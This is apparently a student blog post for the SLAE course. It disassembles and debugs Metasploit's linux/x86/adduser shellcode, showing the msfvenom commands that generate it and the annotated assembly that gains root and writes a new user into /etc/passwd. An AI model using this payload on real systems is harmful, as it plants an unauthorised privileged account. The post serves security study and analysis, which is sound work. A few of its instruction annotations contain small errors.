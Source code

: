 ```yaml
---
layout: post
title: SLAE Exercise 5 (part 3) - Add User
subtitle: Shellcode Analysis 3 - Add User
tags: [SLAE]
---
```


linux/x86/adduser
======

The final chosen shellcode to be used from msfvenom is the 'adduser' payload. This adds a user to the system that it is executed on. The parameters to be used for this payload can be seen with the following command:

    msfvenom -p linux/x86/adduser --payload-options
	
From this it can be seen that there are two required payloads:

![payloadoptions](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/payloadoptions.png)

To keep things simple, these default options will be left, which should create the user with the username and password of 'metasploit'. The command that is used to create a payload that will create the new user is as below:

	msfvenom -p linux/x86/adduser  -f raw > adduserraw

Once this has been generated it can be disassembled using ndisasm to analyse the instructions used with the following command:

	ndisasm -b 32 ./adduserraw

![ndisasm](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/ndisasm.png)


Stepping through the instructions
------

Each of the instructions seen here will be stepped through, describing what is happening at each step. 

**Setreuid**

int setgid(gid_t gid);

The 'setreuid' syscall sets the real and/or effective user or group ID of the calling process. As both values set are 0 the running process will have permissions to modify the 'passwd' file. 

```
Xor ecx, ecx - Clears the ecx register.

Mov ebx, ecx - Move 0 to the ebx register, clearing it.

Push byte +0x46 -	Pushes 70 to the stack.

Pop eax	Pop 70 from the stack into eax for the syscall 'setreuid'

Int 0x80 - An interupt which will call 'setreuid'.
```

**Open**

int open(const char *pathname, int flags, mode_t mode);

For this shellcode, the 'open' syscall is used to open the file that is to be written to in order to add the new user. This is the 'passwd' file found at '/etc/passwd. This can be seen in the below instructions pushed to the stack and then pointed to by ebx: 

```
Push byte +0x5 - Push 5 to the stack.

Pop eax - Pop 5 from the stack into eax for the 'open' syscall.

Xor ecx, ecx - Clear the ecx register.

Push ecx - Push 0 to the stack from the cleared ecx register.

Push dword 0x64777373 - These instructions push '/etc//passwd' to the stack.
Push dword 0x61702f2f	
Push dword 0x6374652f	

Mov ebx, esp - Move the stack pointer into ebx to be a pointer to the pathname to open.

Inc ecx - Increment ecx to be 1.

Mov ch, 0x4 - Move 4 to ch.

Int 0x80 - Interupt to call the 'open' syscall
```

**Write**

ssize_t write(int fd, const void *buf, size_t count);

The 'write' syscall is used to add the new user to the file that was opened previously. This is done using the returned file descriptor. The call value couldn't be completely observed within the disassembled code obtained from Ndisasm previosuly. From debugging the shellcode with GDB the following instuctions could be observed:

![writeinstructions](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/realinstructions.png)

```
Xchg ebx, eax - Move the return value of the 'open' syscall into ebx. The return value is the file descriptor.

Call 0x80480a7 - Call 0x80480a7, which will start from the instruction 'pop ecx'. This is used as a call-pop to get the address of the value required onto the stack.

Insd - The following contain the value that is pointed to from using 'call', and so hold no significance as instructions. 
Gs jz 0x90	
Jnc 0xa1	
Insb	
Outsd	
Imul esi, [edx+edi+0x41], dword 0x49642f7a	
Jnc 0xa7	
Xor al, 0x70	
Xor al, 0x49	
Push edx	
Arpl [edx], di	
Xor [edx], bh	
Xor [edx], bh	
Cmp ch, [edi]	
Cmp ch, [edi]	
Bound ebp, [ecx+0x6e]	
Das	
Jnc 0xba	
Or bl, [ecx-0x75]	

pop ecx	- Move the pointer from 'call' into ecx for the required *buf parameter. 

mov edx, DWORD PTR [ecx-0x4] - Move the required count into edx, this call writes up to 'count' bytes from the buffer sepcified in ecx.

push 0x4 - Push 4 to the stack.

pop 0x4 - Pop 4 to eax to be used for the syscall 'write'.

Int 0x80 - Interupt to call the 'write' syscall.
```

**Exit**

The instructions for this section are as follows:

```
Push byte +0x1	Push 1 to the stack to be used for the exit syscall
Pop eax	Pop 1 to eax for the exit syscall
Int 0x80	Interupt calling the syscall to exit gracefully
```

Strace
------

Strace was utilised to observe the syscalls used and the parameters. The command used and screenshot of the output can be observed below:

    msfvenom -p linux/x86/adduser  -f elf > adduserelf

![Strace](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/strace.png)


GDB
------

To observe the shellcode executing within GDB, the elf payload created will be analysed. The command used to create this code is as follows:

    msfvenom -p linux/x86/adduser  -f elf > adduserelf

With the created payload, there are no symbols within the binary and so 'readelf' has to be used to find the entry point for the binary. This can be run as follows:

    Readelf --headers ./adduserelf

The output of this is as below:

![readelf](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/readelf.png)

As can be seen, the entrypoint in this instance would be the address '0x8048054'. This can now be observed within GDB when setting a breakpoint at this address and running the program:

![gdbinstructions](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/gdbinstructions.png)


**Setreuid**

Just before the first syscall for 'setreuid', the registers were examined to determine if they were as would be expected from the earlier analysis:

![setreuid](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/setreuidregisters.png)


**Open**

As part of the 'open' syscall 3 values are pushed to the stack which are subsequently pointed to within the ebx register. The instructions can be seen below:

![openpush](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/openpush.png)

Once these have been pushed to the stack, the values can be observed:

![etcpasswd](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/etcpasswd.png)

It is clear that '/etc//passwd' is pushed to the stack to be pointed to within ebx to be the file that will be written to. This is where the new user will be inserted. 

Interestingly here, 0x4 is moved into ch to change the value of ecx from 0x1 (1) to 0x401 (1025). This is for the 'flags' parameter of the syscall. The values of the registers before the syscall is called can also be observed within this screenshot. Note that the value of ebx is the same as esp and is pointing to the  '/etc//passwd' value discussed before:

![flags](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/flags.png)


**Write**

The values of the registers before the next syscall 'write' are observed. The value in ebx is the file descriptor that was returned from the 'open' syscall, the ecx register will be discussed below, and the edx register contains the size to be written. This wasn't seen in the Ndisasm dissasembly and within GDB used the following instruction to get the required size:

    Mov edx, DWORD PTR [ecx-0x4]
	
The value pointed to within ecx is the pointer that was pushed to the stack when 'call' was used. It can be seen that this contains the values to write to the opened file:

![examineecx](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/writepointer.png)

The values in the register before the syscall:

![writeregisters](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/writesyscall.png)


**Exit**

The rest of the shellcode gracefully exits the program which will not require walking through. 



This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert Certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert

Student ID: 1092
